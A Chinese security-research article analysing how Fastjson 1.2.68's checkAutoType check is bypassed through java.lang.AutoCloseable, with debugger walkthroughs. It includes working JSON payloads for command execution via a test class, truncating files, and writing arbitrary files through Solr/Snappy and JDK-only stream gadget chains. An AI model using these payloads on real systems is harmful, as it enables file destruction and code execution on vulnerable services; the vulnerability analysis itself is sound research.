# Fastjson 1.2.68 AutoCloseable 利用链深度分析-先知社区

> **来源**: https://xz.aliyun.com/news/17522  
> **文章ID**: 17522

---

# Fastjson 1.2.68 AutoCloseable 利用链深度分析

## 前言

众所周知 fastjson 反序列化最主要就是绕过 `checkAutoType()` 函数，前面无非是通过黑名单以外的类以及 map 缓存来进行利用，但是随着后续版本加入判断反序列化类是否继承或者实现 ClassLoader、DataSource、RowSet 类或接口，大大加深了 jndi 利用的难度。而浅蓝师傅换了条挖掘思路成功实现利用。

## 原理分析

这里先写一个测试的恶意类

```
public class VulAutoCloseable implements AutoCloseable {
    public VulAutoCloseable(String cmd) {
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
 
    @Override
    public void close() throws Exception {
 
    }
}
```

那么构造 poc

```
{"@type":"java.lang.AutoCloseable","@type":"org.example.VulAutoCloseable","cmd":"calc"}
```

无需开启AutoType，直接成功绕过 `CheckAutoType()` 的检测从而触发执行：



**接下来开始漏洞分析**，

跟进到 `checkAutoType` ，第一次是传入 `AutoCloseable` 类进行校验，这里 `CheckAutoType()` 函数的 `expectClass` 参数是为 null 的：



继续向下，直接从缓存 `Mapping` 中获取到了 `AutoCloseable` 类：然后获取到这个 `clazz` 之后进行了一系列的判断，`clazz` 是否为 null，以及关于 `internalWhite` 的判断，`internalWhite` 就是内部加白的名单，很显然这里肯定不是。



然后后面这个判断里面出现了 `expectClass`，先判断 `clazz` 是否不是 `expectClass` 类的继承类且不是 `HashMap` 类型，是的话抛出异常，否则直接返回该类。这里没有 `expectClass`，所以最后返回 `AutoCloseable` 类



接着，返回到 `DefaultJSONParser` 类中获取到 `clazz` 后再继续执行，根据 calzz 得到反序列化器 `JavaBeanDeserializer`，



接着调用 `deserialze()` 方法进行反序列化，



跟进后，里面会开始解析 poc 后面的类（也就是 `VulAutoCloseable`）。看到 `deserializer` 为 null 后设置 `expectClass` 为 `java.lang.AutoCloseable` 类，然后调用 `checkAutoType()` 方法，



再次跟进 `checkAutoType()` 方法，看到因为 `AutoCloseable` 类不是黑名单的类所以设置 `expectClassFlag` 为 true，



往下，由于 `expectClassFlag` 为 true，程序进入 AutoType 开启时的检测逻辑：



由于我们定义的 `VulAutoCloseable` 类不在黑白名单中，继续向下进入 `loadClass()` 逻辑来加载目标类，因为 AutoType 关闭且 jsonType 为 false，因此调用 loadClass()函数的时候是不开启 cache 即缓存的：



加载类后得到 `VulAutoCloseable` 类，继续向下走判断是否 jsonType，是 true 的话直接添加 Mapping 缓存并返回类，接着判断返回的类是否是继承于或者实现 ClassLoader、DataSource、RowSet 等类或接口，是的话直接抛出异常，这里过滤了大多数 jndi 注入，



接着又是判断目标类是否是 `expectClass` 类的子类，是的话就添加到 Mapping 缓存中并直接返回该目标类，否则直接抛出异常导致利用失败，



最后返回 clazz 触发恶意类。

## 漏洞利用

那么我们可以利用继承于 AutoCloseable 的类来进行恶意利用，而 IntputStream 和 OutputStream 都是实现自 AutoCloseable 接口的，而且也没有被列入黑名单，所以只要找到合适的类，那么就可进行文件读取写入操作。

找 gadget 就抓住这个三个思路就行：

* 需要一个通过 set 方法或构造方法指定文件路径的 OutputStream
* 需要一个通过 set 方法或构造方法传入字节数据的 OutputStream，并且可以通过 set 方法或构造方法传入一个 OutputStream，最后可以通过 write 方法将传入的字节码 write 到传入的 OutputStream
* 需要一个通过 set 方法或构造方法传入一个 OutputStream，并且可以通过调用 toString、hashCode、get、set、构造方法调用传入的 OutputStream 的 flush 方法

以上三个组合在一起就能构造成一个写文件的利用链。

### 删除文件

这两个是差不多的，都是清空文件或目录。

```
{
    '@type':"java.lang.AutoCloseable",
    '@type':'java.io.FileOutputStream',
    'file':'/tmp/nonexist',
    'append':false
}
```

```
{
    '@type':"java.lang.AutoCloseable",
    '@type':'java.io.FileWriter',
    'file':'/tmp/nonexist',
    'append':false
}
```

这个 jdk 版本不好说，我在 windows 上是需要 jdk11 以上的，而貌似 RedHat 和 CentOS 下 jdk 8 就行了。

主要是因为 fastjson 在类没有无参数构造函数时，会通过带参构造函数进行反序列化，这时会检查参数是否有参数名，只有含有参数名的带参构造函数才会被认可，不然就会报错，



什么情况下类构造函数的参数会有参数名信息呢？只有当这个类 class 字节码带有调试信息且其中包含有变量信息时才会有。

可以通过如下命令来检查，如果有输出 LocalVariableTable，则证明其 class 字节码里的函数参数会有参数名信息：

```
javap -l <class_name> | grep LocalVariableTable
```

### 写文件一

这个是我们主要探讨的，先看第一个 scz 师傅的延伸 payload

```
{
    "stream": {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/test",
        "append": false
    },
    "writer": {
        "@type":"java.lang.AutoCloseable",
        "@type": "org.apache.solr.common.util.FastOutputStream",
        "sink": {
            "$ref": "$.stream"
        },
        "tempBuffer": "SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "start": 38
    },
    "close": {
        "@type":"java.lang.AutoCloseable",
        "@type": "org.iq80.snappy.SnappyOutputStream",
        "out": {
            "$ref": "$.writer"
        }
    }
}
```

需要用到两个第三方依赖，pom.xml

```
<dependency>  
    <groupId>org.apache.solr</groupId>  
    <artifactId>solr-core</artifactId>  
    <version>8.11.0</version>  
</dependency>  
<dependency>  
    <groupId>org.iq80.snappy</groupId>  
    <artifactId>snappy</artifactId>  
    <version>0.3</version>  
</dependency>
```

简单跟踪，反序列化会成功绕过 checkautotype() 上面学过了的，然后接下来就会实列化返回的 clazz，先实列化 `FileOutputStream`，



创建个文件，接着是 FastOutputStream，进行一些赋值，上面 payload 可以看到赋的什么值，



最后实列化 SnappyOutputStream，能调用到 write 方法，



跟进，最后在这里进行写入。



成功写入文件，


虽然能成功写入文件，但是同时需要两个依赖，实际情况中并不常见。

### 写文件二

这个 Rmb122 师傅的写文件的 poc 比较常用，只需要自带库就行，PoC，

```
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'E:/tmp/3.txt',
           'append':false
        },
        'infl':
        {
            'input':
            {
                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
                'limit':22
            }
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

写入的数据需要利用 openssl zlib 方式的压缩

```
echo -ne "RMB122 is here" | openssl zlib | base64 -w 0
```

简单分析一下，FileOutputStream 就不用说了创建目录，然后是 InflaterOutputStream 的构造函数，其中 infl 中存在了数据



最后是 MarshalOutputStream 的构造方法，



跟进其父类构造函数，调用了 `bout.setBlockDataMode(true);`

